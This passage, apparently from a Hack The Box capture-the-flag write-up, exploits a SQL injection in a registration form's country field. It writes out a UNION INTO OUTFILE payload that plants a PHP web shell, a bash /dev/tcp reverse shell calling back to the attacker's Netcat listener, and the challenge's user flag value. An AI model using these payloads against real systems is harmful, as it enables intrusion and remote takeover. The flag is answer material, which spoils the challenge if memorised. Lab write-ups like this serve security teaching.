If we click the "Join Now" button and intercept the request with Burp Suite, we can observe that the dropdown field is transmitted as plain text, allowing it to be altered to values beyond just country names.

To intercept the request with Burp Suite, I use the Firefox extension "FoxyProxy," which I have already configured beforehand.







Additionally, the page sends back a cookie named `user` and redirects us to `/account.php`.



If we resend this request multiple times, we can observe that the cookie remains the same unless the `Username` parameter is modified, indicating that the session value is not randomly generated.



Given that the cookie is 32 characters long, we can assume it may be the MD5 hash of the provided username, which we can then verify:
```bash
$ echo -n "antonio" | md5sum
```


Our assumption is validated, as the generated output matches the cookie returned by the server.  

If we modify the registration request and insert a single quote (`'`) into the `country` parameter, the account page returns an error message.



If we modify the payload from `Brazil'` to `Brazil' -- -`, the error message disappears, confirming that this is indeed a SQL injection vulnerability.





The `-- -` sequence acts as a comment in many widely used SQL databases, allowing injected payloads to ignore any SQL code that follows the manipulated parameter.

If we are able to inject into the `$country` parameter, we can execute arbitrary queries and bypass the remainder of the original query by appending a comment (`--`). For example, consider the payload `' OR 1=1;--`.





We injected a boolean condition that always evaluates to true and effectively discarded the remainder of the original query.

The easiest way to exploit this is by using two Repeater tabs in Burp Suite—one for account registration and another for accessing the `account.php` page.

### Workflow

1. Go to the registration tab.
2. Modify the `username` (to obtain a different cookie).
3. Insert an SQL injection payload into the `country` parameter and submit the registration request.
4. Copy the generated cookie and paste it into the second tab (`account.php`).

By sending the payload `Brazil' UNION SELECT 1-- -`, we observe that the page no longer returns an error. This indicates that the SQL query is expecting and returning only a single column.






Since we know that a UNION-based injection is possible and the application is built with PHP, we can attempt to leverage the SQL `INTO OUTFILE` statement to write a web shell to the server. We can test this by injecting the following payload:
```bash
$ Brazil' UNION SELECT "<?php SYSTEM($_REQUEST['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'-- -
```


Submitting the payload in the same manner as before results in SQL errors being displayed on the webpage. However, this is due to the query not returning any rows or columns. 



By navigating to `/shell.php`, we can confirm that the file was successfully created.  



At this point, we are able to execute arbitrary commands on the target system using the `?cmd=` parameter.
```bash
$ ?cmd= whoami
```



At this stage, obtaining a fully interactive shell is straightforward. We begin by setting up a Netcat listener on port `4444`:
```bash
$ nc -lnvp 4444
```



Next, we send a standard reverse shell payload that initiates a callback to our listener, using `cURL`:
```bash
$ curl 10.129.95.235/shell.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.17.55/4444 0>&1"'
```



And if we go to our listener:



The user flag can be found at /home/htb/user.txt


```bash
User Flag → d1a9795c0f85d3184faedd59e852ddd8
```


[Back](README.md)